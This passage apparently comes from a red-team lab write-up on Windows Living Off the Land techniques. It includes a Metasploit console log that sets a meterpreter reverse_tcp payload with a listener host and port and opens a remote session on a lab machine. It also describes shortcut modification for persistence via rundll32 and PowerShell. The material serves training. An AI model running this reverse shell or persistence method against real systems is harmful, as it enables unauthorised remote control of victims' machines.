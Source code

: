 ```
_
[-] The value specified for payload is not valid.
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.11.81.220
lhost => 10.11.81.220
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.81.220:443 
[*] Sending stage (175174 bytes) to 10.10.45.70
[*] Meterpreter session 1 opened (10.11.81.220:443 -> 10.10.45.70:50125 ) at 2022-09-10 23:57:13 -0400

meterpreter > whoami
[-] Unknown command: whoami
meterpreter > pwd
C:\Users\thm

```

### Other Techniques 

This section highlights a couple of interesting techniques used, whether for initial access or persistence. The following techniques belong to the Living Off the Land umbrella since they can be used as part of the Windows environment utilities.

Shortcuts 
Shortcuts or symbolic links are a technique used for referring to other files or applications within the operating system. Once a user clicks on the shortcut file, the reference file or application is executed. Often, the Red team leverages this technique to gain initial access, privilege escalation, or persistence. The MITRE ATT&CK framework calls this Shortcut modification technique T1547, where an attacker creates or modifies a shortcut in order to take advantage of this technique.

To use the shortcut modification technique, we can set the target section to execute files using:

    Rundll32
    Powershell
    Regsvr32
    Executable on disk

The attached figure shows an example of a shortcut modification technique, where the attacker modified the Excel target section to execute a binary using rundll32.exe. We choose to execute a calculator instead of running the Excel application. Once the victim clicks on the Excel shortcut icon, the calc.exe is executed. For more information about shortcut modification, you may check this GitHub [repo](https://github.com/jesusgavancho/atomic-red-team).

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b1b3be212430f23ddaba1f82f2c2a566.png)

No PowerShell!

In 2019, Red Canary published a threat detection report stating that PowerShell is the most used technique for malicious activities. Therefore, Organizations started to monitor or block powershell.exe from being executed. As a result, adversaries find other ways to run PowerShell code without spawning it.
